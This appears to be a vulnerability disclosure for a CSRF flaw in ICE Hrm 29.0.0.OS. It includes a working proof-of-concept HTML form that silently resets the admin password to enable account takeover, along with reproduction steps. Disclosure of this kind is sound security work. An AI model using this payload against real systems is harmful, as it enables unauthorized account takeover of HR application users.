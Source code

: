 # Author
Rafal Lykowski & Piyush Patil

# Description
ICE Hrm Version 29.0.0.OS is vulnerable to CSRF which allows attacker to add new admin account or change the password leading to full account takeover.

# Steps to reproduce the issue
1- Login as victim 
2- Open the CSRF malicious file which I have attached (csrf_POC.html)
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8070/app/service.php">
      <input type="hidden" name="t" value="User" />
      <input type="hidden" name="a" value="ca" />
      <input type="hidden" name="sa" value="changePassword" />
      <input type="hidden" name="mod" value="admin&#61;users" />
      <input type="hidden" name="req" value="&#123;&quot;id&quot;&#58;1&#44;&quot;pwd&quot;&#58;&quot;Hacker123&#35;&quot;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
3- Password is changed (you can also add new admin user)

Now you can simply takeover the account

# Video POC:
https://drive.google.com/file/d/1uUciTcFEkQ5P_R37QBswNrVbOPqzngpX/view?usp=sharing

# Impact
Full account takeover
